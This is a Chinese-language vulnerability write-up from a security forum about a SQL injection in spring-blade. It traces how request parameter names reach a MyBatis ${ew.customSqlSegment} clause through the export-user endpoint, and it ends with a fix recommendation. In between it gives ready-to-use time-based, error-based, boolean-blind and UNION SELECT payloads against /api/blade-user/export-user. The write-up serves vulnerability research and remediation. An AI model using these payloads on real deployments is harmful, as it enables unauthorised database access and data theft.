# 奇安信攻防社区-spring-blade SQL注入漏洞

### spring-blade SQL注入漏洞

spring-blade SQL注入漏洞挖掘实战

# spring-blade SQL注入漏洞

## 0x01 漏洞描述

在mybatis中，可能造成SQL注入的写法为${，原因如下：



所以，在mapper.xml中搜索${开头的内容。



其中，  
${ew.customSqlSegment}  
表示自定义SQL语句，我们往上跟，看这个SQL语句怎么来的。



ew参数是一个User类型的Wrapper，看下这个函数在哪里被调用了，于是找到：  
src/main/java/org/springblade/system/user/service/impl/UserServiceImpl.java



往上层找到exportUser的调用。  
src/main/java/org/springblade/system/user/controller/UserController.java



在UserController中将用户输入的数据转化为UserEntity，然后传入的**exportUser**函数。  
调用链如下：

1.  用户输入数据，构建成UserEntity。
2.  将userEntity带入到userService.exportUser中
3.  userService.exportUser函数中，将UserEntity又带入到baseMapper.exportUser当中
4.  baseMapper.exportUser中根据userEntity构建SQL语句（将userEntity的属性转化到where条件中）。

所以用户可控内容到了SQL语句当中，那么，我们应该怎么利用呢，比如我传入account=admin' ,最后构建的SQL语句为：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user where account=?
```

因为：mybits在处理${ew.coustomSqlSegment}的时候，会将value进行预编译，如下：


那么该怎么利用呢？ 我们可以观察到account也就是属性名是直接添加到SQL当中的，也是没有被单引号包裹的。所以我们可以传入1-sleep(5)=1，构建出来的userEntity中会有一个1-sleep(1)的属性名，其值为1，然后将userEntity拼接成的SQL语句：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user where 1-sleep(5)=?
```

从而实现注入。我们看效果吧。



延迟18s，主要原因在于SQL语句：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user
```

有6条记录，每条记录都会执行一次sleep(3)



其他利用方式。  
盲注确实有点恼火，比较慢，那么能不能转化成其他的利用方式呢？

-   报错注入：

```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克]&account=&realName=&1-updatexml(1,concat(0x5c,database(),0x5c),1)=1 
```



-   布尔盲注

```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克] &account=&realName=&1-if(1%3d1,1,0)=1 # false，所以导出的数据为空，excel大小会变小 
```



```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克] &account=&realName=&1-if(1%3d2,1,0)=1 # true，所以导出的数据不为空，excel大小会变大 
```



-   联合查询

```php
/api/blade-user/export-user?Blade-Auth=[jwt-masaike]&account=&realName=&account+like+?+and+is_deleted%3d?)union+select+1,2,3,user(),5,6,7,8,from_unixtime(1451997924),10,11,12--a=1
```



Payload解析：



我们输入-=1的时候，会在where条件后，用括号包裹两个条件，然后产生两个预编译位。所以我们既要闭合括号，又要在注视符前埋下两个预编译位。从而产生初步payload：

```php
account+like+?+and+is_deleted+%3d+?)--+a |
```

然后加入我们的union select

```php
account+like+?+and+is_deleted+%3d+?)union+select+1,2,3,4,5,6,7,8,9,10,11,12--+a 
```

然后报错：



数据类型不一致，因为9所在位置是时间戳类型的，所以用mysql的时间戳函数填充到这。

```php
account+like+?+and+is_deleted%3d?)union+select+1,2,3,user(),5,6,7,8,from_unixtime(1451997924),10,11,12--a 
```



导出成功，然后看excel就可以看到user()的执行结果。



## 0x02 修复建议

在构建entity时候，判断前端传入的map中是否有entity本身不存在的属性，如果有直接忽略掉，不将其拼接到SQL中。
